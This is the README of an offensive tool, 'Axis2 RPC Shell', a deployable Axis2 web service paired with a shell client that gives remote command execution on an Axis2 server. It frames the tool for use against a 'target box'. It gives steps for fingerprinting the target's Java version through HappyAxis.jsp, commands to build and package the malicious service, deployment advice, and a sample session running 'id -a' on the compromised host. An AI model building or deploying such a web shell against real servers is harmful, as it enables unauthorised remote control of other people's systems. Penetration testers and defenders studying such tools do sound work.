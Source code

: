 # Axis2 RPC Shell

This package contains a deployable Axis2 web service along with a bootstrapped shell that can be used to obtain remote command execution on an Axis2 server.  This was produced for two reasons: I wanted a simple shell that could be deployed manually, and I did not want to use Metasploit.  Communication between the Axis2 server and shell are over RPC, and is base64'd (feel free to PR crypto support).  Think Java applets.  This is not a full featured shell (like Fuze), but allows simple, ad-hoc command execution on a remote Axis2 server.

Tested on Linux and Windows, back to 1.3, with Java versions 1.6 and 1.7.  Packaged Axis2 libraries taken from 1.3, but have been tested and working with 1.6.3 (latest) builds.

# Build

BUILDING THIS FOR YOUR ENVIRONMENT IS GOING TO BE DIFFERENT ALMOST EVERY TIME.  READ THIS STUFF.

With your target box in sights, navigate to `http://your-host:8080/axis2/axis2-web/HappyAxis.jsp` to obtain the local Java version.  This is required for correctly building the web service.

We can then put our web service together with the following:

```
javac -target [VERSION] -source [VERSION] -cp .:"lib/*" helper/HelpService.java
jar cf helper.jar helper/* META-INF/*
```

Replace VERSION with the major/minor Java version discovered on the remote host (ie. 1.6/1.7/1.8).  This will produce `helper.jar`, which is the Axis2 web service ready to be deployed.  You can deploy this via the web interface or using my app server tool `clusterd`.

We then need to build our shell component, which can be built using the same method:

```
javac -cp .:"lib/*" rpcshell.java
```

# Usage

Once you've got your shiny service deployed, we just need to fire up the shell.  This can be performed using the following, passing in the IP and PORT of the remote Axis2 server:

```
java -cp .:"lib/*" rpcshell 127.0.0.1 8080
```

Which launches this:

```
[!] Type !exit to quit
localhost > id -a

uid=1000(bryan) gid=1000(bryan) groups=1000(bryan),4(adm),20(dialout),24(cdrom),46(plugdev),116(lpadmin),118(admin),124(sambashare)
localhost > 
```

Shell works as advertised.
